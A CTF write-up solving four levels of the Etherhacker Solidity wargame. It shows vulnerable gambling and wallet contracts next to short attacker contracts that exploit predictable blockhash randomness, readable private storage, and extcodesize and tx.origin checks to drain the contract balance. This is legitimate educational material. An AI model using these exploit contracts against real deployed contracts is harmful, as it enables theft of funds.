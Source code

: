 Title: Etherhacker wargame Lvl. 1-4
Date: 2019-1-14 10:01
Modified: 2019-1-14 10:01
Category: ctf
Tags: ctf, ethereum, solidity
Slug: Etherhacker_wargame
Authors: F3real
Summary: How to solve Etherhacker wargame lvl 1-4

Let's take a look at another interesting wargame based on solidity.
It can be found [here](https://etherhack.positive.com/#/)

[TOC]

## Azino 777

~~~solidity
pragma solidity ^0.4.16;

contract Azino777 {

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
~~~

We need to call `spin` function with a correct bet. We see that it will be calculated based on `block.number - 1` in `random` function. To finish this challenge easily we just need to create a contract with the same random function. Transactions are going to execute in the same block (and share the same block variables) so both our contract and the target will generate a same random number.

We can convert address of contract to proper form from console using:
~~~javascript
web3.toChecksumAddress("<contract_instance>")
~~~

Solution:

~~~solidity
  ...
  Azino777 target = Azino777(targetAddress); 

  function attack() public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    target.spin.value(0.01 ether)(num);
  }
  ...
~~~

## Private Ryan

~~~solidity
pragma solidity ^0.4.16;

contract PrivateRyan {
  uint private seed = 1;

  function PrivateRyan() {
    seed = rand(256);
  }

  function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    seed = rand(256);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
  }

  //Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 blockNumber = block.number - seed;
    uint256 hashVal = uint256(block.blockhash(blockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
  }

  function() public payable {}
}
~~~

It is almost the same challenge, but this time there is also random seed being used in calculating correct guess. We need to read it from contract storage before we create our contract to finish this challenge.

~~~javascript
web3.eth.getStorageAt(
  instanceAddress, 
  0,        //storage slot
  function (err, result) {
    console.log((web3.toHex(result))); 
  }
);
~~~

Solution:

~~~solidity
  PrivateRyan target = PrivateRyan(targetAddress);

  function attack(uint256 _seed) public payable {
    require(msg.value >= 0.01 ether);
    seed = _seed;
    uint256 num = rand(100);
    target.spin.value(0.01 ether)(num);
  }
~~~

## Wheel Of Fortune

~~~solidity
pragma solidity ^0.4.16;

contract WheelOfFortune {
  Game[] public games;

  struct Game {
      address player;
      uint id;
      uint bet;
      uint blockNumber;
  }

  function spin(uint256 _bet) public payable {
    require(msg.value >= 0.01 ether);
    uint gameId = games.length;
    games.length++;
    games[gameId].id = gameId;
    games[gameId].player = msg.sender;
    games[gameId].bet = _bet;
    games[gameId].blockNumber = block.number;
    if (gameId > 0) {
      uint lastGameId = gameId - 1;
      uint num = rand(block.blockhash(games[lastGameId].blockNumber), 100);
      if(num == games[lastGameId].bet) {
          games[lastGameId].player.transfer(this.balance);
      }
    }
  }

  function rand(bytes32 hash, uint max) pure private returns (uint256 result){
    return uint256(keccak256(hash)) % max;
  }

  function() public payable {}
}
~~~

This time `blockhash` is used as a random number generator seed. We see that every new game entry checks if the previous entry guess was correct.

The `blockhash` of the current block, as a reminder, is always 0. 

We can abuse this fact since there is nothing stopping us simply calling this function twice in a row from our contract and triggering the blockhash calculation for the current block.

Another way would be abusing the fact that `blockhash` is saved only for the last 256 blocks (older block number values will just return 0).

Solution:

~~~solidity
  ...
  WheelOfFortune target = WheelOfFortune(targetAddress);
  
  function attack(uint256 _bet) public payable {
    require(msg.value >= 0.02 ether);
    uint256 num  = rand(block.blockhash(block.number), 100);
    target.spin.value(0.01 ether)(num);
    target.spin.value(0.01 ether)(num);
  }
  ...
~~~

## Call Me Maybe

~~~solidity
contract CallMeMaybe {
    modifier CallMeMaybe() {
      uint32 size;
      address _addr = msg.sender;
      assembly {
        size := extcodesize(_addr)
      }
      if (size > 0) {
          revert();
      }
      _;
    }

    function HereIsMyNumber() CallMeMaybe {
        if(tx.origin == msg.sender) {
            revert();
        } else {
            msg.sender.transfer(this.balance);
        }
    }

    function() payable {}
}
~~~

We have two different checks to bypass, first we have modifier `CallMeMaybe` which checks if the code size of `msg.sender` is greater then 0 and reverts. Second we have check that `tx.origin == msg.sender`.

Usually `tx.origin` is the same as `msg.sender`, but if there are chained calls they will differ. For example, if we have a chain of calls A -> B -> C, for C, `msg.sender` will be the address of B while `tx.origin` will be A.

To bypass these checks we will call the target contract from the constructor since during contract initialization code size is 0. This will also bypass second check since we will have  `wallet -> attack contract -> target contract`.

~~~solidity
    CallMeMaybe target = CallMeMaybe(targetAddress);
    constructor() public {
        target.HereIsMyNumber();
    }    
~~~